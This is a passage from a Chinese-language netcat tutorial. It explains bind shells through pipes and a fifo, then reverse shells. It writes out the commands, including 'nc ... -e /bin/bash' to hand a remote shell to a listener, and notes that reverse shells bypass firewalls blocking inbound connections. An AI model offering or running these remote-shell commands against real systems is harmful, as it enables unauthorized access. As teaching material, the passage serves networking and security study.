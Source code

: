sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

**Client**

    $nc -n 172.31.100.7 1567
    
你会得到一个shell提示符在客户端


反向shell
-----

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

**服务端**

    $nc -l 1567
    
在客户端，简单地告诉netcat在连接完成后，执行shell。

**客户端**

    $nc 172.31.100.7 1567 -e /bin/bash
    
现在，什么是反向shell的特别之处呢 
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。 



